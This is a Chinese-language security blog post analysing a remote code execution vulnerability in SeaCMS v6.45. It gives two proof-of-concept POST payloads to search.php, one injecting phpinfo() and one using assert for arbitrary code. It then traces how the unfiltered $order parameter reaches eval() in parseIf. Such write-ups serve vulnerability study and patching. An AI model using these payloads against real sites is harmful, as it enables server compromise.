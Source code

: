 ```yaml
---
title: SeaCMS v6.45前台代码执行漏洞分析
date: 2018-08-06 23:13:22
tags:
	- 代码审计
	- 代码执行
---
```


SeaCMS没有使用框架，比较适合练习。

<!-- more -->

### 1. 源码下载

```
链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw

密码：cd48
```

### 2. POC

第一种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
```

第二种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)print_r($_POST[a]($_POST[b]));//}{end if}&a=assert&b=phpinfo();
```

效果图

![](https://image.mengsec.com/18-8-6/49244924.jpg)

### 3. 漏洞原理分析

#### 3.1 代码执行简单流程

![](https://image.mengsec.com/18-8-6/81792070.jpg)

#### 3.2 详细分析

代码执行的原因是`$order`参数没做严格的限制，就将其传入了模板文件中，然后使用`eval()`执行模板中包含`$order`的代码。

 首先，在文件`seacms/search.php`中，包含了文件`seacms/include/common.php`,在`common.php`中第45-48行，将GET,POST等请求传入的全局变量中的键值对转换成变量，并对其中的值使用`addslashes()`进行处理。

```php
function _RunMagicQuotes(&$svar)
{
	if(!get_magic_quotes_gpc())
	{
		if( is_array($svar) )
		{
			foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
		}
		else
		{
			$svar = addslashes($svar); # 转义单引号、双引号、反斜线、NULL
		}
	}
	return $svar;
}
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
	foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

然后在`seacms/search.php`文件的`echoSearchPage()`函数中，也就是文件第63行，将变量注册成全局变量。

```
global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
```

可以看到，在`search.php`中，执行`echoSearchPage()`函数之前，没有对`$order`变量进行处理。

接着往下看，在`echoSearchPage()`函数中，使用`$searchtype`来选择使用的模板文件。

```
if(intval($searchtype)==5)
	{
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/cascade.html";
		$typeStr = !empty($tid)?intval($tid).'_':'0_';
		$yearStr = !empty($year)?PinYin($year).'_':'0_';
		$letterStr = !empty($letter)?$letter.'_':'0_';
		$areaStr = !empty($area)?PinYin($area).'_':'0_';
		$orderStr = !empty($order)?$order.'_':'0_';
		$jqStr = !empty($jq)?$jq.'_':'0_';
		$cacheName="parse_cascade_".$typeStr.$yearStr.$letterStr.$areaStr.$orderStr;
		$pSize = getPageSizeOnCache($searchTemplatePath,"cascade","");
	}else
	{
		if($cfg_search_time&&$page==1) checkSearchTimes($cfg_search_time);
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/search.html";
		$cacheName="parse_search_";
		$pSize = getPageSizeOnCache($searchTemplatePath,"search","");
	}
```

当值是5时，会使用`cascade.html`，文件目录为`seacms\templets\default\html\cascade.html`，若不是，则会使用`earch.html`，文件目录为`seacms\templets\default\html\search.html`。

下面153行，将模板文件读取到`$content`变量中，接着在155-173行替换标签。其中第158行使用`$order`替换了模板中`{searchpage:ordername}`标签。然后分别搜索`search.html`和`cascade.html`，只有`cascade.html`第79-81行存在该标签。

```
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
<a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
<a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
```

因此，必须要`$searchtype==5`。

接着往下走，在第212行

```
$content=$mainClassObj->parseIf($content);
```

跟进去，在`seacms\include\main.class.php`中第3098-3147行中。

```
function parseIf($content)
{
    if (strpos($content, '{if:') === false) {
        return $content;
    } else {
        $labelRule = buildregx("{if:(.*?)}(.*?){end if}", "is");
        $labelRule2 = "{elseif";
        $labelRule3 = "{else}";
        preg_match_all($labelRule, $content, $iar);
        $arlen = count($iar[0]);
        $elseIfFlag = false;
        for ($m = 0; $m < $arlen; $m++) {
            $strIf = $iar[1][$m];
            $strIf = $this->parseStrIf($strIf);
            $strThen = $iar[2][$m];
            $strThen = $this->parseSubIf($strThen);
            if (strpos($strThen, $labelRule2) === false) {
                if (strpos($strThen, $labelRule3) >= 0) {
                    $elsearray = explode($labelRule3, $strThen);
                    $strThen1 = $elsearray[0];
                    $strElse1 = $elsearray[1];
                    @eval("if(" . $strIf . "){\$ifFlag=true;}else{\$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen1, $content);
                    } else {
                        $content = str_replace($iar[0][$m], $strElse1, $content);
                    }
                } else {
                    @eval("if(" . $strIf . ") { \$ifFlag=true;} else{ \$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen, $content);
                    } else {
                        $content = str_replace($iar[0][$m], "", $content);
                    }
                }
            } else {
                $elseIfArray = explode($labelRule2, $strThen);
                $elseIfArrayLen = count($elseIfArray);
                $elseIfSubArray = explode($labelRule3, $elseIfArray[$elseIfArrayLen - 1]);
                $resultStr = $elseIfSubArray[1];
                $elseIfArraystr0 = addslashes($elseIfArray[0]);
                @eval("if({$strIf}){\$resultStr=\"{$elseIfArraystr0}\";}");
                for ($elseIfLen = 1; $elseIfLen < $elseIfArrayLen; $elseIfLen++) {
                    $strElseIf = getSubStrByFromAndEnd($elseIfArray[$elseIfLen], ":", "}", "");
                    $strElseIf = $this->parseStrIf($strElseIf);
                    $strElseIfThen = addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen], "}", "", "start"));
                    @eval("if(" . $strElseIf . "){\$resultStr=\"{$strElseIfThen}\";}");
                    @eval("if(" . $strElseIf . "){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                    if ($elseIfFlag) {
                        break;
                    }
                }
                $strElseIf0 = getSubStrByFromAndEnd($elseIfSubArray[0], ":", "}", "");
                $strElseIfThen0 = addslashes(getSubStrByFromAndEnd($elseIfSubArray[0], "}", "", "start"));
                if (strpos($strElseIf0, '==') === false && strpos($strElseIf0, '=') > 0) {
                    $strElseIf0 = str_replace('=', '==', $strElseIf0);
                }
                @eval("if(" . $strElseIf0 . "){\$resultStr=\"{$strElseIfThen0}\";\$elseIfFlag=true;}");
                $content = str_replace($iar[0][$m], $resultStr, $content);
            }
        }
        return $content;
    }
}
```

可以看到下面存在`eval()`函数来执行代码，要想进入到`eval()`，`$content`中必须含有`{if:`字符串。

然后是正则，

```
$labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
preg_match_all($labelRule,$content,$iar);
```

看代码执行流程，在`eval()`函数中，`$strIf`就是之前`preg_match_all()`中第一个`(.*?)`匹配出来的值。

```
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

在`eval()`中，要闭合前面的if语句，可以构造`1)phpinfo();if(1`，又要符合正则`{if:(.*?)}(.*?){end if}`，再看标签：

```
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
```

由于`$order`替换的是`{searchpage:ordername}`，所以，在`1)phpinfo();if(1`基础上添加。

```
}{end if}{if:1)phpinfo();if(1}{end if}
```

漏洞利用的基本流程就是这样，简单来说，就是有个可控的变量没有经过过滤，就被带入了`eval()`中，导致了代码执行。

###  4. 参考

[SeaCMS v6.45前台Getshell 代码执行 ](https://github.com/SecWiki/CMS-Hunter/tree/master/seacms/SeaCMS%20v6.45%E5%89%8D%E5%8F%B0Getshell%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)
